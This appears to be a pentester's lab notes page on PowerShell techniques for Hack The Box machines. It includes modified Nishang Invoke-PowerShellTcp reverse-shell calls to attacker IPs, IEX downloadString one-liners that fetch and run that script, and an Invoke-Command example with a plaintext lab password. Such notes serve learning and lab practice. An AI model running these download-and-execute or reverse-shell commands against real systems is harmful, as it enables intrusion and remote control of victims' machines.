 ```yaml
---
description: >-
  Powershell Modules
title: Powershell Modules              # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Modules]                     # Change Templates to Writeup
tags: [file transfer, powershell modules]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Nishang
If we want to add a .ps1 file into a Windows machine such as the [Nishang](https://github.com/samratashok/nishang) series we can modify the latest line of such file (to load the script and then execute it):
```powershell
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
```
Then we can execute it by using the following command on the compromised machine:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```
Examples:
[[Anubis#^bcdb9e]]

### Invoke-Command
Module to execute commands on the specified machine:
```powershell
PS> $Password = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
PS> $Creds = New-Object System.Management.Automation.PSCredential('timelapse.htb\svc_deploy', $Password)
*PS> Invoke-Command -ComputerName dc01 -Credential $Creds -ScriptBlock { whoami }
```
Examples:
[[Fulcrum#^0145f0]]

### Get-SMBShare
Retrieves the local shares:
```powershell
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC
```
Examples:
[[Fulcrum#^cae2ef]]

### Select-String
Search files on the system
```powershell
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern Administrator
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern 923a
```
Example:
[[Fulcrum#^08db04]]
### AD CS
TODO
[[Anubis]]

### Invoke-PowerShellTCP
In order to connect to get a reverse shell with powershell we can abuse of the [Invoke-PowerShellTCP.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) all we need to do is modify the very bottom of this .ps1 file as follows:
```powershell
# Invoke-PowerShellTCP.ps1
------------------------SNIP---------------------------
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.2 -Port 443 -Rows 37 -Cols 189
```
> To get the file in rows and columns of the screen we can execute the stty size on our attacker machine.
{: .prompt-info }

Then from the shell we get, we only need need to execute the followin powershell command:
```powershell
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/Invoke-PowerShellTcp.ps1')"
```

> Don't forget to open your listener with netcat locally.
{: .prompt-tip }
Examples:
[Streamio](https://shuciran.github.io/posts/Streamio/#fnref:invoke-powershelltcp-ps1)
[[Anubis]]

